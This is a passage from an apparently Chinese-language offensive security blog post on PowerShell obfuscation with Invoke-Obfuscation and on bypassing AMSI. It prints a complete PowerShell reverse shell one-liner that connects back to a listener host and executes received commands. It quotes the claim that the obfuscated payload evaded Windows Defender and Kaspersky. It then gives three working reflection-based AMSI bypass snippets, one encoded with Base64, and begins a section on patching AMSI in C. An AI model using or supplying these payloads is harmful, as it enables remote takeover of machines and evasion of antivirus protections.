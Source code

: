 为了更深入地了解 Invoke-Obfuscation 及其应用，您可能会发现以下视频很有启发：https://www.youtube.com/watch?v =uE8IAxM_BhE  
  
在给定的脚本中，正在执行反向 shell 有效负载，概述如下 -> Github - Payload All The Things - Powershell Reverse Shell：  
  
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient( "192.168.1.4" , 4242 );$stream = $client.GetStream();[byte[]]$bytes = 0 .. 65535 | %{0}; while (($i = $stream.Read($bytes, 0 , $bytes.Length)) - ne 0 ){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0 , $i);$sendback = (iex $data 2 >& 1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> " ;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0 ,$sendbyte.Length);$stream.Flush()};$client.Close()
```  
  
  
在启动混淆后，有效载荷会经历变形，变得模糊，但保留其核心功能，如下所示：  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taegB05Ve4ZIB108iaBNHv7LIplxG28ia4N2Ng3dFb8efzxMmYGpTmlp2tm0iciapDDkvG2CvsLkoDgsww/640?wx_fmt=webp&from=appmsg "")  
> “我已针对&nbsp;Windows&nbsp;Defender&nbsp;和卡巴斯基测试了该工具，它成功避开了这些程序，没有任何问题。这就是我将其添加到博客的原因。:)”  
  
  
- PowerShell 中 3 种简单有效的 AMSI 绕过技术  
  
基于反射的绕过此方法使用 .NET 反射通过将其内部 amsiInitFailed 标志设置为 true 来禁用 AMSI。  
  
```
$t =[Ref].Assembly.GetType(( 'System.Manage' + 'ment.Automa' + 'tion.AmsiUtils' )); $f = $ t.GetField(( 'amsiIn' + 'itFailed' ), 'NonPublic,Static' ); $ f.SetValue( $null , $true )
```  
  
- 它访问 System.Management.Automation 程序集中的 AmsiUtils 类。  
  
- 它将 amsiInitFailed 字段设置为 true，强制 AMSI 初始化失败  
  
- 字符串被拆分（'System.Manage'+'ment.Automa'+'tion.AmsiUtils'）以逃避静态检测。  
  
Base64 + ASCII 混淆 此方法使用 Base64 和 ASCII 编码混淆关键字符串以避免被检测到。  
  
```
$s =[System.Text.Encoding] :: UTF8.GetString ([Convert] :: FromBase64String ( 'U3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi5BbXNpVXRpbHM=' )); $t =[Ref].Assembly.GetType( $s ); $ t.GetField([System.Text.Encoding] :: ASCII.GetString (( 97 , 109 , 115 , 105 , 73 , 110 , 105 , 116 , 70 , 97 , 105 , 108 , 101 , 100 )), 'NonPublic,Static' ).SetValue( $null , $true );
```  
  
- 从 Base64 解码“System.Management.Automation.AmsiUtils”。  
  
- 将“amsiInitFailed”从 ASCII 字节值转换。  
  
- 使用反射来禁用 AMSI。  
  
最小反射旁路这是基于反射的旁路的更清晰版本。  
  
```
$t =[Ref].Assembly.GetType(( 'System.Manage' + 'ment.Automa' + 'tion.AmsiUtils' )); $f = $ t.GetField(( 'amsiIn' + 'itFailed' ), 'NonPublic,Static' ); $ f.SetValue( $null , $true );
```  
  
  
- C 语言中的 AMSI 修补技术  
  
本节深入探讨了使用 C 语言编程修补反恶意软件扫描接口 (AMSI) 的各种方法。每种技术都进行了详细解释，包括其基本原理、实现和潜在影响。  
  
使用 WriteProcessMemory 进行函数修补  
  
